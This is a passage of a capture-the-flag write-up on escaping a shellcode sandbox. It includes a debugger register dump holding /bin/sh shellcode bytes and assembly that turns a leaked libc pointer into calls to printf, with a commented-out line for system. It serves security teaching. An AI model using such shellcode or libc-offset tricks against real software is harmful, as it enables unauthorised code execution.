 **So, we find out that the jail follows jumps and sanitizes
each jump target before executing. Very sad.**

There are questions here that you could investigate:
- What if we set up the stack and `ret` to a controlled address, will it sanitize the code we return to (answer: yes)
- What about indirect jumps? "long jumps"? (answer: still sanitized)
- Is there **any** x86 control flow instruction that isn't sanitized by this jail? (answer: probably not)

One way to test this out a bit is to try calling a libc function like `printf`. But where libc?

Maybe there are some interesting values leftover in registers when we start executing at 0x13371337000?

```
$rax   : 0x0000013371337000  →  0x6e69622fb848686a                                                                                                                     
$rbx   : 0x30                                                                                                                                                          
$rcx   : 0x00007ffff6facb0b  →  <mprotect+11> cmp rax, 0xfffffffffffff001                                                                                              
$rdx   : 0x5                                                                                                                                                           
$rsp   : 0x00007fffffffd288  →  0x00005555555563ca  →  <main+506> jmp 0x555555556374 <main+420>                                                                        
$rbp   : 0x2f                                                                                                                                                          
$rsi   : 0x57                                                                                                                                                          
$rdi   : 0x0000013371337000  →  0x6e69622fb848686a                                                                                                                     
$rip   : 0x0000013371337000  →  0x6e69622fb848686a                                                                                                                     
$r8    : 0xd                                                                                                                                                           
$r9    : 0x1c                                                                                                                                                          
$r10   : 0x55550000                                                                                                                                                    
$r11   : 0x212                                                                                                                                                         
$r12   : 0x00007fffffffd2a0  →  "6a6848b82f62696e2f2f2f73504889e7687269010181342401[...]"                                                                              
$r13   : 0x0000013371337000  →  0x6e69622fb848686a                                                                                                                     
$r14   : 0x00007
```

$rcx points into libc! So we can compute offsets to other functions from this one. ie:

```assembly
pushq 0xf00d
lea rdi, [rip+lol]

/* offset to printf */
subq rcx, 0xb6cfb

/* As a bonus, here's how to call system (will fail because jail) */
/* subq rcx, 0xfa00 */

movq rax, 0 # printf requires 0 here
call rcx

.align 256
lol:
.string "hellooo world\n"
```